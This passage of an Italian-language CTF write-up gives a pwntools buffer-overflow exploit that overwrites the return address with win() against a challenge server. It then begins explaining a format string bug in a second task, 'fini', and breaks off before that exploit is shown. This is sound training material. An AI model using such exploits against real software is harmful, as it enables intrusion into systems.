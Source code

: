 #### Exploit

Ecco lo script di exploit:

```python
from pwn import *

elf = context.binary = ELF('./challenge')
context.terminal = []

if args.REMOTE:
    p = remote('ctf.ac.upt.ro', 9806)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript='''
        b rww
        c
    ''')
else:
    p = elf.process()

# 64 bytes buffer + 8 bytes saved RBP = 72 bytes per raggiungere il return address
payload = b'A' * 72 + p64(elf.symbols.win)
p.sendlineafter(b':\n', payload)
p.interactive()
```

**Spiegazione:**

* Il payload overflowa il buffer e sovrascrive il return address con l’indirizzo di `win()`.
* Lo script funziona in locale, con GDB o in remoto.

### fini

**fini** è il primo task pwn davvero impegnativo della serie. Qui dobbiamo sfruttare una vulnerabilità più avanzata nota come **format string bug**.

#### Individuare la vulnerabilità

La vulnerabilità è evidente se conosci i format string bug.
Nel codice decompilato (vedi immagine), il programma chiama `printf()` **senza** specificare una format string, tipo `%s`:

![Decompiled code showing vulnerable printf](/images/fini.png)

Questo significa che l’input dell’utente viene passato direttamente a `printf`, permettendoci di controllare la format string e di leakare valori dallo stack o scrivere in memoria arbitraria.

Inoltre, il programma offre una funzionalità che permette di scrivere qualsiasi valore in qualunque indirizzo—utile per l’exploit.

#### Sfruttare la vulnerabilità
